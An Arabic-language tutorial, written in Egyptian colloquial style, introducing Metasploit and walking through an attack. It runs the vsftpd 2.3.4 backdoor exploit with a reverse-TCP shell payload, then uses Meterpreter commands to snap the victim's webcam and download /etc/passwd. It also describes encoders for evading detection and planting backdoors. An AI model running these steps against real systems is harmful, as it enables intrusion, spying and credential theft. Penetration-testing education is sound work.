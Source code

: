# **ما هو Metasploit؟ (شرح عميق وبسيط)**

 هو **إطار عمل (Framework)** يُستخدم لاختبار الاختراق عن طريق فحص واكتشاف الثغرات الأمنية في الأنظمة والشبكات واستغلالها. الأداة توفر مجموعة كبيرة من الأدوات الجاهزة التي تساعد مختبري الاختراق (Pentesters) على تنفيذ هجماتهم بطريقة منظمة وآمنة.

> ## **💡 الخلاصة بالمصري:**  
>  هو **عدة متكاملة** للاختراق الأخلاقي، بيجمع أدوات لاكتشاف واستغلال الثغرات بطريقة منظمة بدل ما تقعد تعمل كل حاجة يدوي.

---

# **ليه نستخدم Metasploit؟**

 بيستخدم في:  
✅ **فحص الشبكات والسيرفرات** عشان نعرف لو فيها ثغرات.  
✅ **تجربة استغلال الثغرات** الموجودة في قواعد البيانات مثل ExploitDB.  
✅ **إنشاء أكواد استغلال (Exploits) جديدة** وتخصيصها حسب الحاجة.  
✅ **عمل هجوم بعد الاستغلال (Post-Exploitation)** زي استخراج البيانات أو إنشاء أبواب خلفية (Backdoors).  
✅ **تجاوز أنظمة الحماية** مثل الـ IDS والـ Firewall عن طريق التشفير والتخفي.
 
 ## **💡 الخلاصة بالمصري:**  
> Metasploit بيعمل كل حاجة ليك **من أول فحص الهدف لحد السيطرة عليه**، ومش بس كده، كمان بيخليك تقدر تفضل متحكم في النظام حتى بعد الاختراق!

---

# **مكونات Metasploit الأساسية**

 ## متقسم لأربع حاجات أساسية، ودي اللي بتخليه قوي وسهل الاستخدام:

### 1️⃣ **Exploits** (أكواد استغلال الثغرات)

- هي الأكواد اللي بتستخدم لاستغلال الثغرات في البرامج والأنظمة، زي ثغرات **Buffer Overflow** أو **SQL Injection**.
- مكتبة Metasploit فيها أكتر من **2000 Exploit جاهز**.

> ## **💡 الخلاصة بالمصري:**  
>  عنده **ترسانة Exploits جاهزة** تقدر تستخدمها بدل ما تقعد تكتب كود بنفسك.

---

### 2️⃣ **Payloads** (الأوامر اللي بتتنفذ بعد الاختراق)

- لما تستغل ثغرة، لازم تبعت أوامر تتحكم في الجهاز المخترَق، وهنا بيجي دور الـ **Payloads**.
- فيه أنواع كتير من الـ Payloads، زي:
    - **Reverse Shell** → بيفتح لك Terminal على جهاز الضحية.
    - **Meterpreter** → أداة متقدمة تسمح لك بالتحكم الكامل في الجهاز.

> ## **💡 الخلاصة بالمصري:**  
> الـ **Payload** هو اللي بيحدد إنت عايز تعمل إيه بعد ما تخترق الهدف، زي تشغيل **Terminal** أو تحميل ملفات من الجهاز.

---

### 3️⃣ **Encoders** (تشفير الأكواد لتجاوز الحماية)

- بعض أنظمة الحماية بتكشف الـ **Exploits و Payloads** بسهولة، فبيتم تشفيرهم باستخدام **Encoders** عشان يمروا بدون اكتشاف.

> ## **💡 الخلاصة بالمصري:**  
> لو برنامج الحماية كشف الهجوم، Metasploit عنده **أدوات تشفير تخليه يمر من غير ما حد يحس بيك**.

---

### 4️⃣ **Post-Exploitation** (ما بعد الاختراق)

- بعد ما تسيطر على الهدف، Metasploit بيساعدك في تنفيذ عمليات متقدمة، زي:
    - استخراج البيانات الحساسة.
    - إنشاء أبواب خلفية (Backdoors) عشان تقدر تدخل بعدين.
    - التجسس على الجهاز، زي تشغيل الكاميرا أو تسجيل ضغطات الكيبورد.

> **💡 الخلاصة بالمصري:**  
> مش بس تخترق وتمشي، لأ! Metasploit بيديك **أدوات للتحكم الكامل في الضحية** حتى بعد ما يقفل الجهاز.

---

# **خطوات عملية لاستخدام Metasploit 🔥**

## **1️⃣ تشغيل Metasploit Console**

افتح **Kali Linux** واكتب:

```bash
msfconsole
```

هتفتح معاك واجهة Metasploit.

---

## **2️⃣ البحث عن ثغرة مناسبة**

مثلاً، لو عايز تدور على ثغرات FTP، استخدم:

```bash
search ftp
```

هتظهر لك قائمة بالثغرات المتاحة.

---

## **3️⃣ اختيار الـ Exploit المناسب**

بعد ما تلاقي الثغرة اللي تناسب هدفك، استخدم:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

ده معناه إنك اخترت استغلال لثغرة في FTP.

---

## **4️⃣ تعيين الهدف (Target IP)**

حدد عنوان الـ IP الخاص بالجهاز المستهدف:

```bash
set RHOSTS 192.168.1.100
```

---

## **5️⃣ اختيار الـ Payload المناسب**

لو عايز تفتح **Reverse Shell**، استخدم:

```bash
set PAYLOAD linux/x86/shell_reverse_tcp
```

وبعدين تحدد جهازك كـ Listener:

```bash
set LHOST 192.168.1.50  # جهازك
set LPORT 4444           # البورت اللي هيتم الاتصال عليه
```

---

## **6️⃣ تنفيذ الهجوم 🚀**

شغل الهجوم باستخدام:

```bash
exploit
```

لو كل حاجة تمام، هتلاقي نفسك داخل على جهاز الضحية 💀.

---

## **7️⃣ التحكم في الضحية بعد الاختراق**

بمجرد تشغيل Meterpreter، جرب الأوامر دي:

### 🔹 **رؤية العمليات الجارية:**

```bash
ps
```

### 🔹 **فتح كاميرا الضحية:**

```bash
webcam_snap
```

### 🔹 **تحميل ملف من الضحية:**

```bash
download /etc/passwd
```

---

# **🎯 الخلاصة النهائية بالمصري**

 هو **المطبخ اللي فيه كل أدوات الاختراق الجاهزة**، بدل ما تكتب كل حاجة من الصفر.

✔️ **دور على الثغرة** → استخدم `search`  
✔️ **اختار الـ Exploit** → استخدم `use`  
✔️ **حدد الهدف** → استخدم `set RHOSTS`  
✔️ **اختار الـ Payload** → استخدم `set PAYLOAD`  
✔️ **شغل الهجوم** → استخدم `exploit`  
✔️ **تحكم في الضحية** → استخدم `meterpreter`

---

🔥 **كده بقى عندك أساس قوي لاستخدام Metasploit!** لو عايز تطبيق عملي أو شرح لثغرة معينة، قول لي وهنجربها مع بعض. 🚀